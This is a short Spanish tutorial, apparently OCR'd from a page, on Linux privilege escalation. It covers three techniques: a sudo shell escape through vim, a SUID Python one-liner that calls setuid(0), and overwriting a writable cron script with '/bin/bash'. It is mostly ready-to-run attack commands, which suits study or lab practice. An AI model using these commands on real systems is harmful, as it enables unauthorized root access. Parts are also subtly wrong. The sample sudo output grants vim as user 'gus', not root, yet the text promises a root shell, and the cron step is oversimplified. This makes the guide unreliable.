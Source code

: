 
### 🔎 Explicación de estrategias con ejemplos

---

#### 1. 🧂 **Malas configuraciones de `sudo` (Linux)**

Si el usuario tiene permitido ejecutar comandos como `root` sin contraseña:

```bash
sudo -l
```

Salida:

```
(gus) NOPASSWD: /usr/bin/vim
```

Puedes ejecutar:

```bash
sudo vim -c ':!/bin/bash'
```

¡Y ya tienes shell root!

---

#### 2. 🧨 **Archivos SUID inseguros (Linux)**

SUID: Bit que permite que un binario se ejecute con los privilegios del propietario (por lo general, `root`).

```bash
find / -perm -4000 -type f 2>/dev/null
```

Ejemplo: Si encuentras `/usr/bin/python` con SUID, podrías hacer:

```bash
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

#### 3. ⏰ **Cron jobs mal configurados (Linux)**

Detecta cron jobs con `pspy64`:

```bash
./pspy64
```

Si ves que se ejecuta `/home/gus/backup.sh` cada minuto, y tú puedes editarlo:

```bash
echo "/bin/bash" > /home/gus/backup.sh
chmod +x /home/gus/backup.sh
```

Cuando se ejecute el cron job... ¡te da una shell como root!

---
